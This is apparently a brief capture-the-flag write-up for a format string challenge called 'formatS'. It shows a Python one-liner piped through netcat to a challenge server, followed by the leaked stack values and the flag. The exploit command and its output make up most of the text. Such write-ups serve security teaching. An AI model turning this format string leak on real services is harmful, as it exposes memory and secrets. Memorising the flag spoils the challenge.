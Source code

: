 ### formatS

 nc cyberyoddha.baycyber.net 10005


`python3 -c "print( '%08x-' * 6 + '%s')" - | nc cyberyoddha.baycyber.net 10005`  
`00200000-ffffffff-08049189-00000001-ffa8f594-ffa8f59c-cyctf{3xpl0!t_th3_f0rm@t_str!ng}%`